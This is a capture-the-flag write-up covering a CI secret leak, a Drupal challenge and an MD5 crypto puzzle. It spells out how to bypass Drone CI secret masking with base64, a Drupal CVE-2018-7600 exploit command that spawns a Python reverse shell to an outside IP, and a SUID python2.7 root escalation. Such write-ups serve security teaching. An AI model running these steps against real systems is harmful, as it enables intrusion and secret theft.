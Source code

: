 From here, we can see two repositories. And by looking at the git instance, it turns out we can push changes to the ``m.miller/website-docker-test`` repository.
By inspecting the ``.drone.yml``, it turns out that it runs ``echo $SECRET_VALUE`` on startup. By simply pushing the file again with no impactful change, we can see that it returns the value:
> ``******``

From here, the challenge is to figure out a way to get the secret value without displaying it in cleartext, as that gets censored.

This can be done by changing the ``echo $SECRET_VALUE`` command to ``echo $SECRET_VALUE | base64``.

After pushing this change, the setup now returns the flag in base64:
> ``RERDe1dhMXRfczNjcjN0c180cjNfbjB0X3MzY3IzdH0K``

Now we can do ``echo "RERDe1dhMXRfczNjcjN0c180cjNfbjB0X3MzY3IzdH0K" | base64 -d``, and we get the flag!

``DDC{Wa1t_s3cr3ts_4r3_n0t_s3cr3t}``


### Straight drip marketplace
###### 484pts - 9 solves - Medium

Upon visiting the site, we are greeted with a Drupal login page. From here, we can find the Drupal version by going to [http://straight-drip.hkn/CHANGELOG.txt](http://straight-drip.hkn/CHANGELOG.txt).

From the changelog, it turns out that the server is running ``Drupal 7.57`` which, after a quick Google search, turns out to be vulnerable against ``CVE-2018-7600``.
A public PoC of this CVE can be found at [https://github.com/pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

This allows us to get RCE!

To do so, we can open a Netcat listener and execute:


``python3 drupa7-CVE-2018-7600.py http://straight-drip.hkn -c "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"77.96.98.4\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'"``

This spawns us a shell as ``www-data``.

To become root, we can start by looking for SUID binaries with the following command:

``find / -uid 0 -perm -4000 -type f 2>/dev/null``

This returns ``/usr/bin/python2.7``, which is very interesting for escalating our privileges. This can be done by spawning a shell from Python with the following command:

``python -c 'import os; os.execl("/bin/sh", "sh")'``

From here, we just need to read the flag at ``/root/very_secret_information_how_did_you_find_this.txt``, and we get the flag!

``DDC{Y0U_F0UND_M3_N0W_S4V3_M3}``

## Crypto
### Hashmaster 101
###### 100pts - 38 solves - Very Easy
In this, we are given a script and a text file with the MD5 hash of each character in the flag. 
To solve this, we can just take the alphabet list from the provided script and generate an MD5 hash of each character to figure out the flag.
